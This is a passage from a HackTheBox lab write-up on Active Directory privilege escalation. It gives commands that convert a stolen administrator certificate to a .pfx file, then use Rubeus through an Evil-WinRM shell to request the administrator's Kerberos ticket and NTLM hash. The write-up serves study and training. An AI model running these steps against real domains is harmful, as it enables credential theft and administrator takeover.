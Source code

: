 This will give us a certificate that we can use to authenticate as administrator.

Copy the ticket and save to `cert.pem` file. 

Use provided openssl command to convert the ticket to a .pfx file. 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526220121.png]]

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
- just hit enter at the export password prompt

Actually....... to use this cert with winrm...separate out the cert.pem private key to a new file called key.cert and the certificate to cert.pem

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526220442.png]]

Cannot use the certificate for WinRM because there isn't SSL (5986)

### Priv Esc 

#### Rubeus 

Rubeus can also be found in the SharpCollection

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526220831.png]]

Upload Rubeus.exe to Evil_WinRM shell as Ryan.Cooper
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526220906.png]]

Upload *cert.pfx* also 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526220945.png]]

##### Use Rubeus and admin's cert.pfx to request TGT

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526221212.png]]

We get base64 ticky but it didn't inject to our session.

Let's get NTLM hash 

##### Use Rubeus and admin's cert.pfx to request TGT & NTLM hash
```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526221437.png]]
